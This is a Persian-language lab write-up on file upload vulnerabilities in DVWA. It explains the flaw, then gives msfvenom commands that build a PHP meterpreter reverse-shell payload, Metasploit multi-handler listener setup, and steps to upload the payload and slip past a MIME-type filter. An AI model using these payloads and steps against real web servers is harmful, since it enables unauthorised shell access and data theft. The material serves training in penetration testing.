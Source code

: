 ### File Upload Vulnerability - E71
#### Definition & Instruction
##### What is File Upload Vulnerability?
- نوعی از آسیب پذیری درون وب اپلیکیشن است که به Attacker اجازه آپلود فایل مخرب را در سرور آن وب اپلیکیشن را میدهد.
- حال این فایل میتواند شامل کد های مخربی باشد که با اجرا بر روی وب سرور دسترسی غیر مجاز به داده های حساس را برای Attacker فراهم کند.
- در واقع بوسیله این آسیب پذیری میتوانیم کد های مخرب، انواع Reverse Shell و یا انواع حمله ها را بر روی ماشین تارگت پیاده سازی کنیم.
- این آسیب پذیری زمانی رخ میدهد که فیلدی که برای آپلود استفاده میشود درست Validate(تایید) و Sanitize(فیلتر و پاکسازی) نمیشود در نتیجه میتوان هر فایلی را بوسیله این فیلد در سرور آپلود کرد.
	![[Pasted image 20240724170221.png]]
- در فرآیند Sanitizing فایلی که قرار است آپلود شود از لحاظ هایی که برنامه نویس مشخص میکند بررسی میشود تا صحت فایل تایید شود. 
- مثلا پسوند Extension فایل بررسی میشود و اگر جز پسوند های مجاز بود اجازه آپلود آن صادر میشود، و یا مثلا Size یک فایل بررسی میشود که اگر از 2000 کلیوبایت بیشتر بود اجازه آپلود نداشته باشد.
##### Low Difficultly Instruction
1. Create `msfvenom` payload 
	1. در مرحله اول باید Payload با پسوند PHP ایجاد کنیم که با آپلود آن بتوانیم به وب سرور دسترسی بگیریم. 
```sh
msfvenom -p php/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw > exploit.php
```
	![[Pasted image 20240724170644.png]]
2. Now run `metasploit` and Start `Multi-Handler` to Listen `PHP Reverse Sessions`
	1. حال باید یک Listener را برای این Payload اجرا کنیم تا در صورت گرفتن دسترسی بتوانیم آنرا مدیریت کنیم.
```sh
sudo msfconsole
msf6> use exploit/multi/handler 
msf6> set payload php/meterpreter/reverse_tcp
msf6> set LHOST 127.0.0.1
msf6> exploit
```
	![[Pasted image 20240724171009.png]]
3. Now Upload `exploit.php` and then Open `exploit.php` in the Browser to Give Meterpreter Shell Access in `msfconsole`
	1. در این مرحله هیچ فیلتری بر روی فایل صورت نمیگیرد در نتیجه براحتی میتوانیم فایل را در سرور آپلود کنیم.
		1. ![[Pasted image 20240724171414.png]]
	2. کافیست فایل را در مرورگر باز کنیم تا بتوانیم دسترسی آنرا در کنسول `metasploit` مشاهده کنیم.
		1. ![[Pasted image 20240724171410.png]]
##### Medium Difficultly Instruction
0. *DVWA File Upload - Medium Level Logic*
	1. تفاوتی که در مرحله متوسط دارد این است که فایلی که قرار است آپلود شود ابتدا Sanitize میشود که فقط پسوند فایل های عکس یعنی `jpg, png, jpeg` باشد. 
		1. ![[Pasted image 20240724183225.png]]
	2. این Sanitizing را در یک if که برای فیلد آپلود در نظر گرفته شده است میتوان مشاهده کرد:
		1. ![[Pasted image 20240724183236.png]]
	3. در واقع در این مرحله فقط Type فایل بررسی میشود که حتما باید `imag/jpeg` باشد، در حالیکه در مرحله دشوار علاوه بر پسوند فایل، Type فایل و کد مخصوص image هم `;GIF98a` بررسی میشود.
	   بنابراین باید با استفاده از تکنیک پسوند PHP Payload را به یکی از پسوند های مجاز تغییر دهیم. اینکار را میتوانیم بوسیله `Burpsuite => Repeater Module` انجام دهیم.
1. Create `msfvenom` payload
	1. ![[Pasted image 20240724182627.png]]
```sh
msfvenom -p php/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw > exploit.php
```
2. Now run `metasploit` and Start `Multi-Handler` to Listen `PHP Reverse Sessions`
	1. ![[Pasted image 20240724182936.png]]
```sh
```